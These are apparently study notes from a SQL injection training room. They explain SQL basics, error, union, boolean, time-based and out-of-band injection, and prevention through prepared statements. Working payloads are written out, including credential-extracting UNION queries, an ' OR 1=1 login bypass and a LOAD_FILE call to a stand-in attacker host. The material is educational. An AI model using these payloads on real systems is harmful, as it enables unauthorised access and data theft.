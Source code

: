 # SQL Injection

## Task 1: Introduction to SQL Injection (SQLi)

- SQL Injection (SQLi) exploits improper input validation to execute malicious SQL queries.
- It can lead to data theft, modification, deletion, authentication bypass, and database compromise.
- One of the oldest and most dangerous web vulnerabilities.

### SQL Basics

- SQL (Structured Query Language) is used to manage relational databases.
- Relational databases store data in tables (rows & columns) with relationships.
- Common SQL operations:
  - INSERT → Add data
  - UPDATE → Modify data
  - DELETE → Remove data
  - SELECT → Retrieve data

---

## Task 2: What is a Database?

### Database Overview

- A database is an organized electronic storage system for data, managed by a Database Management System (DBMS).
- Two main types:
  - Relational Databases (SQL-based) → MySQL, SQL Server, PostgreSQL, SQLite.
  - Non-Relational Databases (NoSQL-based) → MongoDB, Cassandra, ElasticSearch.

### Database Structure

- A DBMS can manage multiple databases, each containing tables identified by unique names.

- Tables consist of:
  - Columns (Fields) → Define data type & constraints (e.g., unique, not null).
  - Rows (Records) → Contain actual data entries.

---

## Task 3: What is SQL?

### Retrieving Data with SELECT

- Get all columns:
  SQL Query => `SELECT * FROM users;`

- Get specific columns:
  SQL Query => `SELECT username, password FROM users;`

- Limit results:

  - SQL Query => `SELECT* FROM users LIMIT 1;`

- Filter results using WHERE:

  - SQL Query => `SELECT* FROM users WHERE username='admin';`

- Pattern matching with LIKE:

  - SQL Query => `SELECT* FROM users WHERE username LIKE 'a%';`

- Combining Queries with UNION
  - SQL Query => `SELECT name, address FROM customers UNION SELECT company, address FROM suppliers;``

### Modifying Data

- INSERT new data:

  - `SQL Query => INSERT INTO users (username, password) VALUES ('bob', 'password123');`

- UPDATE existing data:

  - `SQL Query => UPDATE users SET username='root' WHERE username='admin';`

- DELETE data:
  - `SQL Query => DELETE FROM users WHERE username='martin';`

---

## Task 4: What is SQL Injection?

- Occurs when user-provided data is inserted directly into an SQL query.

- Example scenario:

  - SQL Query => `SELECT * FROM blog WHERE id=1 AND private=0;`

    - Attacker modifies the URL: `https://website.thm/blog?id=2;-- -`

    - This terminates the query early and bypasses access controls.

---

## Task 5: In-Band SQL Injection

- Error-Based SQL Injection

  - Exploits errors returned by the database to extract information.
  - Example: Triggering an error by adding a single quote (') to an input field.

- Union-Based SQL Injection
  - Uses UNION SELECT to retrieve additional data.
  - Steps to determine the number of columns:
    SQL Query => `1 UNION SELECT 1,2,3; --` Increase numbers until no error appears.
  - Extracting database name:
    SQL Query => `0 UNION SELECT 1,2,database();`
  - Extracting table names:
    SQL Query => `0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one';`
  - Extracting credentials:
    SQL Query => `0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users;`

---

## Task 6: Blind SQL Injection - Authentication Bypass

- No visible error messages, but success can be inferred from application behavior.

- Bypassing Login Authentication:
  - SQL Query => ` ' OR 1=1;--`
  - Always evaluates to TRUE, granting access.

---

## Task 7 & 8: Blind SQL Injection - Boolean & Time-Based

- Boolean-Based SQLi

  - Responses change based on injected conditions.
  - Example:
    - SQL Query => `' AND 1=1 -- --` (Valid query, may return results)
    - SQL Query => `' AND 1=2 -- --` (Invalid query, no results)

- Time-Based SQLi
  - Uses `SLEEP()` to introduce delays.
  - If the response is delayed, the query executed successfully.
    - SQL Query => `' UNION SELECT SLEEP(5);--`

---

## Task 9: Out-of-Band SQL Injection

- Uses external communication (HTTP/DNS requests) to exfiltrate data.

- Example:
  - SQL Query => `SELECT LOAD_FILE('\\\\attacker.com\\payload');`
  - Forces the database to request a file from an external server.

---

## Task 10: SQL Injection Prevention

- Use Prepared Statements (Parameterized Queries)

  - Prevents SQL injection by treating user input as data, not part of the query.
    -PHP Code: - `$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
    $stmt->bind_param("s", $username);
    $stmt->execute();`

- Implement Input Validation

  - Allow only expected input types (e.g., numbers for IDs, predefined options for dropdowns).

- Escape User Input

  - Use built-in escaping functions to sanitize input.

- Restrict Database Permissions

  - Limit database user privileges to only necessary actions.

- Web Application Firewalls (WAFs)
  - Can help detect and block SQL Injection attacks.

---
